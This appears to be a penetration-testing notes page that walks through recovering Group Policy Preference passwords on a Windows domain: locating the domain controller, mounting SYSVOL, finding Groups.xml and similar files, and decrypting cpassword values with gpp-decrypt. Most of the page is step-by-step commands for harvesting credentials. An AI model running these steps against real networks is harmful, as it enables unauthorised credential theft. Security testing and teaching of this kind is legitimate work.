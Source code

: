 # Group Policy Preference

## Overview

* ff the machine belongs to a domain and your user has access to System Volume Information there might be some sensitive files there.
* first we need to map/mount that drive
* in order to do that we need to know the IP-address of the domain controller
* we can just look in the environment-variables

## Output Environment Variables

```bash
set
```

## Look for the Following

```bash
LOGONSERVER=\\NAMEOFSERVER
USERDNSDOMAIN=WHATEVER.LOCAL
```

## Look Up IP Address

```bash
nslookup nameofserver.whatever.local
```

## It Will Output Something Like This

```bash
Address:  192.168.1.101
```

## Now Mount it

```bash
net use z: \\192.168.1.101\SYSVOL
```

## Then Enter it

```bash
z:
```

## Now Search for the groups.xml File

```bash
dir Groups.xml /s
```

* if we find the file with a password in it, we can decrypt it like this in Kali

```bash
gpp-decrypt encryptedpassword
```

```bash
#thest all may also have cpassword set
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element,
ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes
```
